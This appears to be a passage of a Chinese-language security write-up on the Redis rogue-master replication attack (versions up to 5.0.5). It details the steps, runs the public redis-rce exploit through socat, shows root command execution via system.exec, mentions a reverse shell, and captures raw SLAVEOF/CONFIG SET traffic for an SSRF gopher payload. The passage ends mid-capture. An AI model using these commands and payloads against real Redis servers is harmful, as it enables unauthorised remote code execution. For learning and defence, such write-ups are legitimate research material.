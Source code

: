 受影响版本：<=5.0.5

原始paper：

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
主要利用方法如下：
![/data/typora_assets/redis/20200719220535985.png](https://i.loli.net/2020/07/24/mHsyYI4wLjpgfNh.png)
第一步，我们伪装一个redis数据库，然后目标redis将我们的redis数据库设置为主节点。
第二步，我们获得目标redis dbfilename的值，或设置目标redis的dbfilename为so文件
第三步，设置传输方式为全量传输，并将已编译为.so文件的攻击扩展作为payload发送。
第四步，在目标客户机加载dbfilename文件，成功加载扩展，扩展里面实现了任意命令执行。

### 利用方法

利用条件：必需一个外网IP模拟redis rogue server，且内网redis能出外网。

现在网上大部分的利用方法都是攻击外网未授权redis，比如已有的exp：

https://github.com/Ridter/redis-rce

对于攻击内网未授权redis，比如利用ssrf gopher协议，是需要在外网模拟redis rogue server，内网构造payload发送的。笔者实际演示一下，

先使用socat抓到实际协议流量
`socat -v tcp-listen:4444,fork tcp-connect:localhost:6379`

运行上面的exp，
`python3 redis-rce.py -r 127.0.0.1 -p 4444 -L 127.0.0.1 -P 2333 -f exp.so -v`
![/data/typora_assets/redis/20200719231846015.png](https://i.loli.net/2020/07/24/u4rA8xYUHeTRmnt.png)

注意上面的`FULLRESYNC`流量是master响应包（master在2333端口），响应slave数据库的`PSYNC`请求的（slave端口在6379），而我们抓包流量是4444->6379，所以下面是没有这个包的流量的。

此时目标redis已经加载了扩展，

```shell
127.0.0.1:6379> whoami
(error) ERR unknown command 'whoami'
127.0.0.1:6379> system.exec 'whoami'
"root\n"
```
但是我们想反弹shell，故继续往下转发流量
![/data/typora_assets/redis/20200720122441757.png](https://i.loli.net/2020/07/24/JalBETWkDe8Pm4z.png)

获得反弹到3000端口的shell，
![/data/typora_assets/redis/20200720122508087.png](https://i.loli.net/2020/07/24/l9xEjsLeHcCOvVS.png)

拷贝流量到socat.log，需要处理一下socat.log，把前面的INFO部分去掉，得到

```
> 2020/07/20 12:23:45.195249  length=42 from=14 to=55
*3\r
$7\r
SLAVEOF\r
$9\r
127.0.0.1\r
$4\r
2333\r
< 2020/07/20 12:23:45.195443  length=5 from=2716 to=2720
+OK\r
> 2020/07/20 12:23:45.195529  length=54 from=56 to=109
*4\r
$6\r
CONFIG\r
$3\r
SET\r
$10\r
dbfilename\r
$6\r
```